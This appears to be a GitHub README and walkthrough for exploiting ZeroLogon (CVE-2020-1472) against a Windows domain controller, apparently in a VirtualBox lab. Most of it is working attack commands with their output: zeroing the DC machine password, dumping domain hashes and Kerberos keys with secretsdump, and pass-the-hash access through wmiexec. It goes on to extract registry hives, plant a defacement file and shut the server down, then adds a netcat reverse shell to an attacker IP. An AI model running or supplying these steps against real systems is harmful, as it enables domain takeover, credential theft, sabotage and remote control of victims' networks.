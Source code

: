 # ZeroLogon exploitation script

Exploit code based on https://www.secura.com/blog/zero-logon and https://github.com/SecuraBV/CVE-2020-1472. Original research and scanner by Secura, modifications by RiskSense Inc.

To exploit, clear out any previous Impacket installs you have and install Impacket from https://github.com/SecureAuthCorp/impacket/commit/b867b21 or newer. Then, do:

```
python3 set_empty_pw DC_NETBIOS_NAME DC_IP_ADDR
```

If that's successful you will then be able to:
```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```
which should get you Domain Admin. After you have that, wmiexec.py to the target DC with a credential from the secretsdump and do
```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
```

Then you can
```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
And that should show you the original NT hash of the machine account. You can then re-install that original machine account hash to the domain by
```
python3 reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR ORIG_NT_HASH
```

Reinstalling the original hash is necessary for the DC to continue to operate normally.

# HOW TO
#### install dependencies
```bash
sudo apt-get update
sudo apt-get install python3-venv -y
```

#### Scan for server info
- Server IP: (192.168.1.153)
```bash
sudo nmap -Pn -sU --script nbstat.nse -p137 192.168.1.153
```
##### Output:
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-21 22:29 UTC
Nmap scan report for 192.168.1.153
Host is up (0.00042s latency).

PORT    STATE SERVICE
137/udp open  netbios-ns
MAC Address: 08:00:27:5E:66:0B (Oracle VirtualBox virtual NIC)

Host script results:
| nbstat: NetBIOS name: WIN-3AMIT8RJ9OB, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:5e:66:0b (Oracle VirtualBox virtual NIC)
| Names:
|   WIN-3AMIT8RJ9OB<00>  Flags: <unique><active>
|   DOMINIOSERVER<00>    Flags: <group><active>
|   DOMINIOSERVER<1c>    Flags: <group><active>
|   WIN-3AMIT8RJ9OB<20>  Flags: <unique><active>
|_  DOMINIOSERVER<1b>    Flags: <unique><active>

Nmap done: 1 IP address (1 host up) scanned in 0.25 seconds
```
- Server IP: (192.168.1.153)
- netbios name: (WIN-3AMIT8RJ9OB)
- domain name: (DOMINIOSERVER)


#### Create virtual environment
```bash
python3 -m venv zero
cd zero
source bin/activate
```

#### Clone git repo
```bash
git clone https://github.com/risksense/zerologon.git
cd zerologon
pip install -r requirements.txt
pip install impacket
```

- Server IP: (192.168.1.153)
```bash
python3 set_empty_pw.py WIN-3AMIT8RJ9OB 192.168.1.153 
```
- The format ```python3 set_empty_pw.py NETBIOS_NAME SERVER_IP```

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMINIOSERVER/WIN-3AMIT8RJ9OB$@192.168.1.153'
```
- The ```-hashes :31d6cfe0d16ae931b73c59d7e0c089c0``` value is not important
- The format ```secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'SERVER_DOMAIN/NETBIOS_NAME$@SERVER_IP'```
- domain name: (DOMINIOSERVER)
- netbios name: (WIN-3AMIT8RJ9OB)
- Server IP: (192.168.1.153)

##### Output:
```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf404c607f29d847da44a3ee1479398c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c0df59848e7ea6b584b2d9e03cb0b8d7:::
WIN-3AMIT8RJ9OB$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:e271a736d7cb730c1a9c5a51a34f318914da65773e3b04217bc0d5f49d0ab778
krbtgt:aes128-cts-hmac-sha1-96:211796a84ea5ef9a157cf214f221465a
krbtgt:des-cbc-md5:d3ecf28f40f1685e
WIN-3AMIT8RJ9OB$:aes256-cts-hmac-sha1-96:20f0ee0401afa50eeaa73f15f25e625a955b7bd05b11a8880cbbd12e6f3116e9
WIN-3AMIT8RJ9OB$:aes128-cts-hmac-sha1-96:29f9aede70c5c3a62035eef7fe617a87
WIN-3AMIT8RJ9OB$:des-cbc-md5:16b9c20e2c230e3e
[*] Cleaning up...
```
- The format is ```<username>:<UserID>:<LMHash>:<NTHash>:::```

#### Create Text file to send
```bash
echo "HACKEADO :3" > newFile.txt
```

#### Get wmiexec.py
```bash
wget https://raw.githubusercontent.com/fortra/impacket/refs/heads/master/examples/wmiexec.py
```

#### Use wmiexec.py
```bash
python3 wmiexec.py DOMINIOSERVER/Administrator@192.168.1.153 -hashes aad3b435b51404eeaad3b435b51404ee:cf404c607f29d847da44a3ee1479398c
```
- The format ```python3 wmiexec.py DOMAIN/USER@SERVER_IP -hashes LMHASH:NTHASH```
##### Output
```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

#### Send file from linux to windows (inside wmiexec.py) and then shutdown windows Server
```
lput newFile.txt C:\Users\Administrator\Desktop\
shutdown /s /t 0
```
- The format ```lput SOURCE_PATH(Linux) TARGET_PATH(Windows)```

#### To restore original password:
```bash
python3 reinstall_original_pw.py WIN-3AMIT8RJ9OB 192.168.1.153 cf404c607f29d847da44a3ee1479398c
```
- The format ```python3 reinstall_original_pw.py NETBIOS_NAME SERVER_IP NTHASH```

## OPTIONAL:
#### Reverse Netcat Shell

64 Bits
```bash
wget https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc64.exe
```
32 Bits
```bash
wget https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc.exe
```
(Inside wmiexec Shell)
#### Send file from linux to windows (inside wmiexec.py) and then shutdown windows Server
```
lput nc64.exe C:\Users\Administrator\Desktop\
cd Users\Administrator\Desktop\
nc64.exe -e cmd.exe 192.168.1.151 443
```
- The format ```nc64.exe -e cmd.exe KALI_IP PORT```
#### In Kali terminal to listen for netcat reverse shell
```bash
nc -nlvp 443
```